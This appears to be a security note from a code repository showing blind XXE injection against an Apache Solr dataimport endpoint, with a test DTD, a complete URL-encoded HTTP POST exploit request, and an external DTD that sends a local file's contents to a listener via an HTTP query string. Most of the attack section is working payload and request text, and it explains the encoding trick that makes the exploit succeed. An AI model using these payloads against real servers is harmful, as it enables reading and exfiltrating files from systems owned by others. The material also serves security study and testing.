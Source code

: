 ### XXE injection

#### Blind XXE injection
1. just for verifying XXE.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%remote;]>
<root/>
```

2. extract file content from target system
```http
POST /solr/new_core/dataimport HTTP/1.1
Host: cqq.com:8983
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

command=full-import&dataConfig=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
<!ENTITY %25 file SYSTEM "file:///Users/Shared/cccc">
<!ENTITY %25 remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%25remote%3b
%25all%3b
]>
<root>%26send%3b</root>
```
The original xml content is as follows:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
<!ENTITY % file SYSTEM "file:///Users/Shared/cccc">
<!ENTITY % remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%remote;
%all;
]>
<root>&send;</root>
```
but if we use this content directly, we will end up with a expection liks this:
![](imgs/sc_20190828162051.png)
if we urlencode `%`, `;` and `&`, we will successfully read the content of the target file.
![](imgs/sc_20190828162401.png)
while the content of `/Users/Shared/cccc` is: `shadowsock5`.
while the content of `http://127.0.0.1:8000/xxe.dtd` is:
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8888/?content=%file;'>">
```
Demo:
![](imgs/sc_20190828163109.png)

#### Ref
- http://ceye.io/payloads
- https://blog.csdn.net/u011721501/article/details/43775691
